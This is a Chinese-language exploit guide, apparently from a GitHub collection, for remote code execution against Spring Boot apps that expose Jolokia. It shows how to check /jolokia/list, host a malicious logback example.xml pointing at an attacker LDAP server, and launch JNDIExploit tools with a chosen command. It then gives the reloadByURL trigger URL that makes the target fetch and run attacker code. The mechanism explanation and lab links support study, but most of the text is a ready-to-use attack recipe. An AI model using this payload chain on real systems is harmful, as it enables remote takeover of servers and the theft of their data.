

# jolokia logback JNDI RCE

## 利用条件：
- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

## 利用方法：
#### 访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词 🚩

#### 托管example.xml文件
example.xml:  
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```
```shell
# 在xml文件目录开启http服务
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
#### 架设恶意ldap服务
工具：[JNDIExploit-1.4-SNAPSHOT.jar](./file/JNDIExploit.v1.4.zip)
工具项目地址：https://github.com/WhiteHSBG/JNDIExploit
```bash
java -jar -jar JNDIExploit.jar -i VPS地址
```
工具：[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](./file/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) 
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行命令" -A VPS地址 
```
### 发送payload
替换实际的VPS地址,访问URL触发漏洞：
`http://x.x.x.x/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps地址!/example.xml`
> ⚠️ 如果目标成功请求了example.xml并且JNDI也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

## 漏洞原理：
1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

## 漏洞分析：
[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

## 漏洞环境：
[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)